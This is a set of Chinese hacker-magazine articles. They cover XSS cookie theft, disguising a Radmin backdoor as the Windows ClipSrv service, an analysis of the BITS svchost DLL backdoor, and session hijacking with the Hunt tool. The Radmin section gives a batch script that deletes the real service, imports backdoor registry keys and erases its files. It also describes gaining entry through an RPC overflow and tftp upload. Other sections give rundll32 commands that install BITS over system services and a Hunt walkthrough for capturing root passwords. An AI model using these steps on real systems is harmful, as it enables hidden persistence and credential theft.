PHP注入的确比ASP难得多，不过，经过研究发现，很多问题还是存在的，比ASP等有意思多了；SQL注入攻击的防范是个值得关注的大问题，因为它的出现让人难以预料，并且通常让人为之震撼。不过，相信有更好的防范方法会被我们发现的。

# Cookie

Cookie是Web服务器保存在用户硬盘上的一段文本。Cookie允许一个Web站点在用户的电脑上保存信息并且随后再取回它，信息的片断以“名/值”对（name-value pairs）的形式储存。

如果你使用IE浏览器访问Web，你会看到所有保存在您的硬盘上的Cookie，它们最常存放的地方是：C:\Documents and Settings\你的用户名\Cookies，每一个文件都是一个由“名/值”对组成的文本文档，另外还有一个文件保存有所有对应的Web站点的信息。

# 跨站脚本攻击

黑客先在一台机器上放入一个脚本，这个脚本用来收集浏览器提交的查询字符串，然后黑客再篡改网页，往里面加入一条JavaScript的语句，使受害者浏览这个网页的时候，利用window.open()把受害人的Cookie自动保存下来，这样黑客就拿到了储存在Cookie中的用户名和密码，这就是跨站脚本攻击。

- 难度等级：中
- 适合对象：网管，计算机专业／网络爱好者
- 前置知识：Sc系统工具的使用，radmin服务安装技巧，后门的隐藏

# 将后门隐藏到底



月初路过书店，看到上月出的《黑客防线》，赶紧买了本边走边看，有篇文章写得挺好，让我想起了去年第六期中有篇名为《后门程序的隐藏》，文中介绍了如何将radmin的服务替换为系统clipsrv这个服务的方法，以及radmin的配置，看完后顺着作者的思路，我试着把这一伪装技术再趋于完善，下面我们就对文中提到的完全替换法（可以使用全部功能）和数值替换法（完全控制和浏览不能用）来说说我的看法。

> 替换后的服务名称处依然显示r_server，这一点有时会引起其他人的注意（详情见第六期第八页）

作者在这里提到的服务的显示名称是r_server，其实这个服务名是可以更改的。我们打开服务注册表看一下这两个键：

```
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\ClipSrv
和 HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\r_server
```

其键值是与服务里显示的服务名对应的，想过替换它没有？嘿嘿，可以的。

如果把注册表键值r_server改为clipsrv的话，那么显示的服务名称会不会是clipsrv，而不是r_server？没错！就是这样！现在开工：准备工作还是先将服务端r_server改为clipbook.exe。我是先在本地机测试的，所以我直接打开注册表，找到HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\r_server，新添一个字符串值，名称为Description，数值数据为“支持剪贴簿查看器”，以便可以从远程剪贴簿查看器剪贴页面，再将DisplayName这个数值数据改为clipbook。现在前期工作准备好了，拿出sc.exe，将clipsrv这个服务停止并移除，如图1所示。



这时打开注册表，clipsrv这个键值已经不在了，我们再找到r_server这个键，重命名为clipsrv（注意：如果把C和S这两个字母都用大写的话会出现服务已存在的情况！），OK！我们已完全造假成功，经测试，所有功能都可用！现在看看服务项目里的显示是不是全部都改过来了，如图2所示。



> 蝴蝶：这样重命名键值的方式必须把机子重启后才能用，不重启，在服务里的服务名称是不会改过来的，而且双击该服务会出错！

因为是在本机测试，问题就来了，若远程用clipbook/install安装的话，势必在远程主机HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services下生成r_server这个键，如果是在cmd下得到一个shell的话，要改键名可以，但是比较麻烦——既然我们知道了服务项里的服务所对应的注册表的键值，如果在本地机子上安装好r_server后并将其对应的键值改为clipsrv然后导出来，在远程主机导入，然后把clipbook.exe、admdll.dll、raddrv.dll这3个文件放在远程主机c:\winnt\system32下，那不就是同样的效果了吗？！哈哈，我是不是很聪明？^_^。

现在我们就开始，我测试的机器是偶局域网内的一台机子win2K advance server，先在本机照前面步骤安装并修改好r_server这个服务后，将：

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\clipsrv（这个是已经造假过的）这个键导出保存为clipbook.reg。

把本机HKEY_LOCAL_MACHINE\SYSTEM\radmin这个键导出保存为radmin.reg，这个键对应的是我们配置服务端的参数，比如端口、图标是否隐藏等。为了操作方便，我将步骤写成批处理，并保存为r.bat，内容如下：

```bat
@echo off
net stop clipsrv                \\ 将clipsrv服务停止
sc delete clipsrv               \\ 将clipsrv服务移除
regedit /s radmin.reg           \\ 导入注册表
regedit /s clipbook.reg         \\ 导入注册表
del radmin.reg
del clipbook.reg
del sc.exe
del radmin.exe  \\ 我将admdll.dll, clipbook.exe, raddrv.dll, sc.exe, radmin.reg, clipbook.reg, r.bat
这几个文件用rar自释放格式打包生成的可执行文件。
del r.bat
```

然后我们通过rpc溢出得到一个shell，用tftp上传我们打包成自释放格式的radmin.exe这个文件并执行，再运行r.bat，用netstat -an看看，服务端的端口没有打开（我设的是1029），说明服务没启动，看来是必须重启！shutdown！几分钟后，直接用radmin客户端连接，成功，哈哈！所有的功能都可用哦！

至此，我们的这个完全替换法是可行了，但就是有一点不好，要想服务正常运行必须重启电脑。在这里有个问题必须说明一下：若是用clipbook.exe /port:XXXX无法改端口，在注册表里改端口的话（比如449），那么两个端口都可以连，重启电脑后就会生成另一个的端口，用fport查一下，对应的是clipbook这个应用程序：如图3。看来这个是唯一的破绽了。



好了，终于完了，这个研究过程耗了我一个通宵的时间，我得去休息了。哈哈，能在黑防上和大家讨论技术，是我的荣幸，谢谢阅读，下次希望还能再见！

## 接38页

微软用Svchost进程概括了很多系统中的底层服务，表面上好像很干净，但一旦被后门利用起来将是非常可怕的，我们无法再使用ProcessExplorer或进程管理器之类的软件来直接看到系统中后门进程。如果后门替换了某个Dll，我们也无法通过“控制面板→服务”看到，而只有通过ListDlls之类的软件来察看系统中运行的Dll，这可是个非常复杂的工作，因为一个系统中Dll实在是很多，普通用户无法分辨哪些是正常的，哪些是不正常的。后门的作者如果写得很恶意，甚至连脚印也不会存在，只有整天和这些东西打交道的人才能分辨，杀毒公司也有自制的程序进行合法性比对（当然不会向大众提供），等抓住特征码后再升级病毒库，大家再付钱，呵呵。PS：不过杀毒公司现在正在和RootKit打擂台呢，结果还未分晓，我们等着看吧^_^。

蝴蝶：小榕的BITS在前段时间可是大大地“光火”了一回，它是属于DLL后门中的一种，但比一般DLL后门更加隐蔽，激活方式也更另类，并且能够反向透过防火墙，平时没有端口，很难察觉——功能的确是强，但是榕哥为了防止造成大的破坏，在Bits中作了限制，并且留下了脚印，很吃惊吧？呵呵，下面我们来看看作者对榕哥Bits的简单分析吧！

# BITS



文／Tianwei [Nuke Group]

本次分析对象：Bits.dll，  
版本：2003/09/16。  
MD5：A07F9B83CA7ADF342EFBEF9529171144

Bits的Readme中提到，Bits的设计思想来自Bingle的对Svchost分析的文章，我也看了这个文章，的确非常好，非常详细地介绍了Svchost的原理并提供了源代码，有兴趣的读者可以从网上搜索到。如果你已经知道了svchost的原理，那么可以略过下面对svchost的介绍。

### 通过svchost调用的服务基本情况

我们常通过“控制面板→服务”看到这些服务的，比如：

```text
svchost -k rpcss // Remote Procedure Call (RPC)
svchost -k tapisrv // Telephony
svchost -k netsvcs
```

或许有朋友会问：难道svchost一个文件就能提供这么多服务吗？其实不是这样的，svchost仅仅是个宿主，通过分析对自身调用的参数来启动相应名字的Dll服务，它的服务分为若干个“组”（借用Bingle的概念）。我们来具体看看，在注册表键：

```text
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Svchost
```

里面有若干个REG_MULTI_SZ类型的值来对应上面的组，比如在笔者的机器上有：

```text
rpcss='RpcSs'
tapisrv='Tapisrv'
netsvcs='EventSystem ias Iprip irmon Netman NwSapAgent Rasauto Rasman RemoteAccess SENS SharedAccess Ntmssvc'
```

分别为Rpcss组、Tapisrv组、netsvcs组。每个组可以包含多个字符串（比如ias、Iprip……），分别对应注册表键：

```text
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services
```

下面是以该字符串命名的服务入口。比如：SENS（Event System服务）对应的是这个：

```text
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\SENS
```

在这个入口的下层子键Parameters中，有个REG_EXPAND_SZ类型的值ServiceDll指明了该服务实际调用的动态连接库，比如：ServiceDll=%SystemRoot%\system32\sens.dll，这个sens.dll才是SENS服务真正的提供者，而我们平时在“控制面板→服务”中是无法看到的。

### Bits安装分析

BITS安装时在注册表中HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Svchost\netsvcs下写了一个REG_SZ类型的值Strings，比如：Strings=activebitsdoor@dancewithdolphin，以明文方式来保存激活后门的部分参数。Bits默认安装的：rundll32.exe BITS.dll,Install <activestring> 似乎是想替换Iprip服务，但若机器本身没有，将无法安装成功；如果以 rundll32.exe BITS.dll,Install rasauto <activestring> 安装的话，则替换rasauto服务，将ServiceDll指向自己。Bits的反安装在试验时并不起作用，大概是试验所用的机器限制或其他原因，所以必须手工恢复注册表。

同样，虽然Bits的readme中没有写，但我们还可以替换其他的netsvcs服务，比如：

```text
rundll32.exe BITS.dll,Install sharedaccess <activestring>
```

将替换（SharedAccess）Internet Connection Sharing服务，将ServiceDll指向自己！——现在大家明白了吧？哈哈，替换这才是经典所在！

# 会话劫持攻防战

- 难度等级：中
- 前置知识：网络通讯常见知识

文／Dahubaobao【RingZ】

socket：通常，大家所说的入侵，都是针对一台主机，在获得管理员权限后，一般就很得意了，其实，真正的入侵是占领整个内部网络。现在针对内部网络的攻击方法比较多，但比较有效的方法无非ARP欺骗、DNS欺骗了。不管使用什么技术，无非都是抓取目标的数据包，然后分析出敏感数据。如果目标内部采用的是共享式网络（采用HUB集线器连网），那只需要把网卡设置为“混杂模式”，挂上嗅探器（Sniffer），就能监听到你想得到的数据。如果是交换式网络（采用交换机连网），这样方法就行不通了，因为对于嗅探器，有三种网络环境是无法跨越的：“网桥”“交换机”“路由器”。可惜对于ARP欺骗，交换式网络还是无能为力。如果我们借助ARP欺骗，再实现更高一层的“入侵手段”，从而真正地控制内部网络，那就是威力非常大的入侵了，而本文要叙述的会话劫持攻击就能让你完全搞定内网……

如果你的朋友给你打电话，而你没在，有人伪装成你和你的朋友通话，并获得了很多机密的信息，你却一点都不知道，这就是劫持了！

> **小知识：** 所谓会话，就是两台主机之间的一次通讯。例如你Telnet到某台主机，这就是一次Telnet会话；你浏览某个网站，这就是一次HTTP会话。而会话劫持（Session Hijack），就是结合了嗅探以及欺骗技术在内的攻击手段。例如，在一次正常的会话过程当中，攻击者作为第三方参与到其中，他可以在正常数据包中插入恶意数据，也可以在双方的会话当中进行监听，甚至可以是代表某一方主机接管会话。



图1 会话劫持示意图

我们可以把会话劫持攻击分为两种类型：1）中间人攻击（Man In The Middle，简称MITM）；2）注射式攻击（Injection）。还可以把会话劫持攻击分为两种形式：1）被动劫持；2）主动劫持。被动劫持实际上就是在后台监视双方会话的数据流，从中获得敏感数据；而主动劫持则是将会话当中的某一台主机“踢”下线，然后由攻击者取代并接管会话，这种攻击方法危害非常大，攻击者可以做很多事情，比如“cat etc/master.passwd”（FreeBSD下的Shadow文件）。会话劫持原理如图1所示：

# 会话劫持相关程序

可以进行会话劫持的工具很多，比较常用的有Juggernaut，它是可以进行TCP会话劫持的网络Sniffer程序；TTY Watcher，它是针对单一主机上的连接进行会话劫持。还有如Dsniff这样的工具包也可以实现会话劫持，只是看你会不会使用了。但能将会话劫持发挥得淋漓尽致的，还要算Hunt这个工具了。

Hunt的作者是Pavel Krauz，这个程序可以工作在Linux和一些Unix平台下，它的功能非常强大，无论是在共享式网络还是交换式网络，它都可以正常工作，可以进行中间人攻击和注射式攻击，还可以进行嗅探、查看会话、监视会话、重置会话。Hunt目前最新版本是1.5，可以到Pavel Krauz网站下载源代码包和二进制文件：http://lin.fsid.cvut.cz/~kra/#hunt。

现在来看看如何使用Hunt，首先是下载并编译源代码：

```bash
[root@dahubaobao hunt]# wget http://www.ringz.org/hunt-1.5.tgz
[root@dahubaobao hunt]# tar zxvf hunt-1.5.tgz
[root@dahubaobao hunt]# cd hunt-1.5
```

```bash
[root@dahubaobao hunt-1.5]# make
[root@dahubaobao hunt-1.5]# ./hunt
```

Hunt 是完全交互式的操作，具体如图 2 所示。



图 2

解释一下各个选项的含义：

- `/v/w/r) list/watch/reset connections`
  - `l`（字母 l）为查看当前网络上的会话；`w` 为监视当前网络上的某个会话；`r` 为重置当前网络上的某个会话。
- `a) arp/simple hijack (avoids ack storm if arp used)`
  - 中间人攻击（会话劫持），Hunt 先进行 ARP 欺骗，然后进行会话劫持。使用此方法可以避免出现 ACK 风暴。
- `s) simple hijack`
  - 简单的会话劫持，也就是注射式攻击。会出现 ACK 风暴。
- `d) daemons rst/arp/sniff/mac`
  - 该选项共实现四个功能，分别为：终止会话，自动发送带 RST 标志位的 TCP 包；ARP 欺骗后进行数据包转发；嗅探功能；在当前网络上收集 MAC 地址。

其他的选项很简单，不多说了，还是来看具体的例子吧，我想大家都等不及了！

# 应用实例

测试环境：

| 角色 | 系统 | IP |
|---|---|---|
| 攻击者 | Red Hat Linux 9.0 | 192.168.0.10 |
| 主机A | Windows Advanced Server | 192.168.0.1 |
| 主机B | FreeBSD 4.9 STABLE | 192.168.0.20 |

```bash
[root@dahubaobao hunt-1.5]# ./hunt
/*
 * hunt 1.5
 * multipurpose connection intruder / sniffer for Linux
 * (c) 1998-2000 by kra
 */
starting hunt
----- Main Menu ----- rcvpkt: 0, free/aloc 63/64
```

```text
/v/w/r) list/watch/reset connections
u) host up tests
a) arp/simple hijack (avoids ack storm if arp used)
s) simple hijack
d) daemons rst/arp/sniff/mac
o) options
x) exit

*> l   // 查看当前网络上的会话
0) 192.168.0.1 [3465] ---> 192.168.0.20 [23]
// 主机A正在 Telnet 到主机B

*> w   // 监视当前网络上的会话
0) 192.168.0.1 [3465] ---> 192.168.0.20 [23]
Choose conn>0   // 选择打算监视的会话
Dump [s]rc/[d]st/[b]oth [b]>
Print sec/dst same characters y/n [n]>
```

现在就可以监视会话了。主机 A 输入的一切内容，我们都可以看到，如图 3 所示。



图 3

主机 A 在 Telnet 并登录之后，直接 `su root`，`password:` 后边的就是 root 的密码。现在这个系统已经完全由你所控制了，自由发挥吧！

```text
----- Main Menu ----- rcvpkt: 0, free/aloc 63/64
/v/w/r) list/watch/reset connections
u) host up tests
a) arp/simple hijack (avoids ack storm if arp used)
s) simple hijack
d) daemons rst/arp/sniff/mac
o) options
x) exit
```





攻击者的意图是获取主机 B 的 passwd 文件的内容，但由于注射式会话劫持缺陷，导致了 ACK 风暴，所以 Hunt 向会话双方发送了一个带 RST 标志位的 TCP 包来阻止 ACK 风暴，具体如图 4 所示。

现在，攻击者已经成功地劫持了主机 A 和 B 之间的 Telnet 会话。主机 A 输入的一切命令攻击者都可以看到，并且攻击者也可以自行插入命令，如图 5 所示的例子。

